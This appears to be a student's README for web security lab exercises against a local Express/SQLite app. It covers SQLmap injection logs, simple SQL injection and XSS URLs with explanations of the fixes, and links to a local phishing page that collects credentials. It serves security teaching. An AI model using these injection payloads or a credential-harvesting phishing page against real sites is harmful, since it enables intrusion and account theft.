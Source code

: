 Log file analizer usage:

```
# Show 4xx errors
python log_analyzer.py 1

# Show URL statistics
python log_analyzer.py 2

# Watch logs in real-time
python log_analyzer.py 3

# Specify a different log directory
python log_analyzer.py 2 --log-dir /path/to/logs
```

Lab 4:
The logs are showing us that SQLmap is testing for SQL injection on GET parameter 'nume'. It tried different attacks and it successfully extracted the users table. 


```
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /cauta?nume=Ion%27%20UNION%20ALL%20SELECT%20CHR%28113%29%7C%7CCHR%28118%29%7C%7CCHR%28107%29%7C%7CCHR%28112%29%7C%7CCHR%28113%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%28LENGTH%28SYSDATE%29%3DLENGTH%28SYSDATE%29%29%20THEN%201%20ELSE%200%20END%29%20FROM%20DUAL%29%7C%7CCHR%28113%29%7C%7CCHR%28112%29%7C%7CCHR%28120%29%7C%7CCHR%28122%29%7C%7CCHR%28113%29%2CNULL%20FROM%20DUAL--%20rqBU ::1 200 info: Searching for: Ion' UNION ALL SELECT CHR(113)||CHR(118)||CHR(107)||CHR(112)||CHR(113)||(SELECT (CASE WHEN (LENGTH(SYSDATE)=LENGTH(SYSDATE)) THEN 1 ELSE 0 END) FROM DUAL)||CHR(113)||CHR(112)||CHR(120)||CHR(122)||CHR(113),NULL FROM DUAL-- rqBU
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /cauta?nume=Ion%27%20UNION%20ALL%20SELECT%20CHR%28113%29%7C%7CCHR%28118%29%7C%7CCHR%28107%29%7C%7CCHR%28112%29%7C%7CCHR%28113%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%28LENGTH%28SYSDATE%29%3DLENGTH%28SYSDATE%29%29%20THEN%201%20ELSE%200%20END%29%20FROM%20DUAL%29%7C%7CCHR%28113%29%7C%7CCHR%28112%29%7C%7CCHR%28120%29%7C%7CCHR%28122%29%7C%7CCHR%28113%29%2CNULL%20FROM%20DUAL--%20rqBU ::1 200 error: Redirecting to login page: Database error: SQLITE_ERROR: no such table: DUAL
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /api/login ::1 200 info: Login page
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /cauta?nume=Ion%27%20UNION%20ALL%20SELECT%20%28CHR%28113%29%7C%7CCHR%28118%29%7C%7CCHR%28107%29%7C%7CCHR%28112%29%7C%7CCHR%28113%29%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%28CONVERT_TO%28%27QXrQ%27%2CQUOTE_IDENT%28NULL%29%29%20IS%20NULL%29%20THEN%20%28CHR%2849%29%29%20ELSE%20%28CHR%2848%29%29%20END%29%29%7C%7C%28CHR%28113%29%7C%7CCHR%28112%29%7C%7CCHR%28120%29%7C%7CCHR%28122%29%7C%7CCHR%28113%29%29%2CNULL--%20IARt ::1 200 info: Searching for: Ion' UNION ALL SELECT (CHR(113)||CHR(118)||CHR(107)||CHR(112)||CHR(113))||(SELECT (CASE WHEN (CONVERT_TO('QXrQ',QUOTE_IDENT(NULL)) IS NULL) THEN (CHR(49)) ELSE (CHR(48)) END))||(CHR(113)||CHR(112)||CHR(120)||CHR(122)||CHR(113)),NULL-- IARt
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /cauta?nume=Ion%27%20UNION%20ALL%20SELECT%20%28CHR%28113%29%7C%7CCHR%28118%29%7C%7CCHR%28107%29%7C%7CCHR%28112%29%7C%7CCHR%28113%29%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%28CONVERT_TO%28%27QXrQ%27%2CQUOTE_IDENT%28NULL%29%29%20IS%20NULL%29%20THEN%20%28CHR%2849%29%29%20ELSE%20%28CHR%2848%29%29%20END%29%29%7C%7C%28CHR%28113%29%7C%7CCHR%28112%29%7C%7CCHR%28120%29%7C%7CCHR%28122%29%7C%7CCHR%28113%29%29%2CNULL--%20IARt ::1 200
 error: Redirecting to login page: Database error: SQLITE_ERROR: no such function: CHR
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /api/login ::1 200 info: Login page
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /cauta?nume=Ion%27%20UNION%20ALL%20SELECT%20CHAR%28113%29%2BCHAR%28118%29%2BCHAR%28107%29%2BCHAR%28112%29%2BCHAR%28113%29%2B%28CASE%20WHEN%20%28UNICODE%28SQUARE%28NULL%29%29%20IS%20NULL%29%20THEN%20CHAR%2849%29%20ELSE%20CHAR%2848%29%20END%29%2BCHAR%28113%29%2BCHAR%28112%29%2BCHAR%28120%29%2BCHAR%28122%29%2BCHAR%28113%29%2CNULL--%20HkCf ::1 200 info: Searching for: Ion' UNION ALL SELECT CHAR(113)+CHAR(118)+CHAR(107)+CHAR(112)+CHAR(113)+(CASE WHEN (UNICODE(SQUARE(NULL)) IS NULL) THEN CHAR(49) ELSE CHAR(48) END)+CHAR(113)+CHAR(112)+CHAR(120)+CHAR(122)+CHAR(113),NULL-- HkCf
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /cauta?nume=Ion%27%20UNION%20ALL%20SELECT%20CHAR%28113%29%2BCHAR%28118%29%2BCHAR%28107%29%2BCHAR%28112%29%2BCHAR%28113%29%2B%28CASE%20WHEN%20%28UNICODE%28SQUARE%28NULL%29%29%20IS%20NULL%29%20THEN%20CHAR%2849%29%20ELSE%20CHAR%2848%29%20END%29%2BCHAR%28113%29%2BCHAR%28112%29%2BCHAR%28120%29%2BCHAR%28122%29%2BCHAR%28113%29%2CNULL--%20HkCf ::1 200 error: Redirecting to login page: Database error: SQLITE_ERROR: no such function: SQUARE
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /api/login ::1 200 info: Login page
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /cauta?nume=Ion%27%20UNION%20ALL%20SELECT%20CHAR%28113%2C118%2C107%2C112%2C113%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%28LAST_INSERT_ROWID%28%29%3DLAST_INSERT_ROWID%28%29%29%20THEN%201%20ELSE%200%20END%29%29%7C%7CCHAR%28113%2C112%2C120%2C122%2C113%29%2CNULL--%20ksZP ::1 200 info: Searching for: Ion' UNION ALL SELECT CHAR(113,118,107,112,113)||(SELECT (CASE WHEN (LAST_INSERT_ROWID()=LAST_INSERT_ROWID()) THEN 1 ELSE 0 END))||CHAR(113,112,120,122,113),NULL-- ksZP
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /cauta?nume=Ion%27%20UNION%20ALL%20SELECT%20CHAR%28113%2C118%2C107%2C112%2C113%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%28LAST_INSERT_ROWID%28%29%3DLAST_INSERT_ROWID%28%29%29%20THEN%201%20ELSE%200%20END%29%29%7C%7CCHAR%28113%2C112%2C120%2C122%2C113%29%2CNULL--%20ksZP ::1 200 info: Rendering cauta page
```

```
[10:01:01] [INFO] the back-end DBMS is SQLite
[10:01:01] [INFO] fetching banner
web application technology: Express
back-end DBMS: SQLite
banner: '3.44.2'
[10:01:01] [INFO] fetching tables for database: 'SQLite_masterdb'
<current>
[2 tables]
+-----------------+
| sqlite_sequence |
| users           |
+-----------------+

```
SQLite integration tutorial: https://www.sqlitetutorial.net/sqlite-nodejs/


Lab5:
Possible problems and how to solve it:
```
Access to fetch at 'http://localhost:5000/api/data' from origin 'http://localhost:4567' has been blocked by CORS policy: Response to preflight request doesn't pass access control check: No 'Access-Control-Allow-Origin' header is present on the requested resource. If an opaque response serves your needs, set the request's mode to 'no-cors' to fetch the resource with CORS disabled
```

Lab6:
URL vulnerabil:
```
http://localhost:4567/cauta?q=' OR '1'='1
```
In acest caz, query-ul devine ```SELECT * FROM users WHERE name = '' OR '1'='1' ``` si ```OR '1'='1'``` este mereu adevarat, deci ne vor fi returnati toti utilizatorii din tabelul users. Pentru a rezolva problema SQL injection, trebuie sa sanitizam datele, de exemplu prin utilizarea Sequelize. Aceasta sanitizare se face si automat cu ajutorul sqlite.

URL vulnerabil:
```
http://localhost:4567/cauta?q=<script type="text/javascript">alert("vulnerable");</script>
```
Acsta va realiza un pop up de tip alerta in care se va mentiona ca siteul este vulnerabil. Pentru a preveni acest tip de atac trebuie sa utilizam ```<%= %>``` în loc de ```<%- %>```. De asemenea, ar trebui sa sanitizam datele primite din query.


You need to enable CORS on the server where the API is hosted (http://127.0.0.1:5000)

Lab10:
Link to see the phishing email: http://localhost:5000/api/email
Link to the fake amazon phishing page: http://localhost:5000/api/phishing
Link to view the credentials sent to the server: http://localhost:5000/api/view-credentials